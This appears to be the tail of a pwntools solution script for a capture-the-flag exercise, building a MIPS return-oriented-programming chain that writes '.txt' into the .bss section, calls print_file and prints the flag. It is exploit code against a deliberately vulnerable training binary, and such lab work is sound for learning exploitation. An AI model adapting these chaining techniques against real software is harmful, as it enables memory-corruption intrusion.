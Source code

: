```python
# Second gadget write ".txt"
PL+=p32(0xf00df00d) 	   # junk
PL+=b'.txt'                # t1
PL+=p32(bssaddr+4)         # t0
PL+=p32(g_set_a0_and_call) # t9 => next gadget

# call print_file(@.bss)
PL+=p32(0xdeadbeef)        # junk
PL+=p32(print_file)         # t9
PL+=p32(bssaddr)            # a0

io.sendlineafter(b"> ",PL)

io.recvuntil(b"ROPE")
flag=io.recvline().decode()
log.success(f"flag : ROPE{flag}")
io.close()
```
